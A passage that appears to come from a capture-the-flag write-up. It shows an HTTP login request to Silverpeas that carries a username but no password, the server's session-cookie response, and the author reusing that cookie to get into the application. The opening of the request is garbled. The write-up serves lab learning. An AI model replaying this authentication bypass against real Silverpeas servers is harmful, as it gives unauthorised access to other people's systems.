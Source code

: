 ```Use Silverpeas to build an Intranet or Extranet and feed web 2.0 sites optimizing sharing and performance.
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Login=scr1ptkiddy&DomainId=0
```
The response we receive should look like:

```bash
HTTP/1.1 302 Found
Set-Cookie: JSESSIONID=22D2G3E6r8plc-G5ybnP1s58gf5AXfX-p53cwMn1.ebabc79c6d2a; path=/silverpeas; HttpOnly
Set-Cookie: defaultDomain=0; path=/; Max-Age=31536000; Expires=Tue, 26-May-2026 15:18:20 GMT
Set-Cookie: svpLogin=scr1ptkiddy; path=/; Max-Age=31536000; Expires=Tue, 26-May-2026 15:18:20 GMT
X-XSS-Protection: 1
x-ua-compatible: ie=edge
X-Frame-Options: SAMEORIGIN
Location: http://silverplatter3:8080/silverpeas/Main//look/jsp/MainFrame.jsp
Content-Security-Policy: default-src 'self' blob: mailto:  https: spwebdav:  ws://silverplatter3:8080 ; script-src 'self' blob: 'unsafe-inline' 'unsafe-eval'  https: spwebdav: https://apis.google.com; style-src 'self' 'unsafe-inline'  https: spwebdav: https://fonts.googleapis.com; style-src-elem 'self' blob: 'unsafe-inline' https://fonts.googleapis.com
Date: Mon, 26 May 2025 15:18:20 GMT
Connection: keep-alive
Access-Control-Allow-Origin: http://silverplatter3:8080
X-Content-Type-Options: nosniff
Content-Length: 0
```
The response contains a ```JSESSIONID``` cookie and a ```Location```.
Adding the cookie to our browser using Cookie-Editor extension, allows us to navigate to the ```Location``` ```http://silverplatter3:8080/silverpeas/Main//look/jsp/MainFrame.jsp```, and we are in!
![alt text](https://github.com/Kyd0s/Kyd0s.github.io/blob/main/assets/SilverPlatterLogin.png?raw=true)
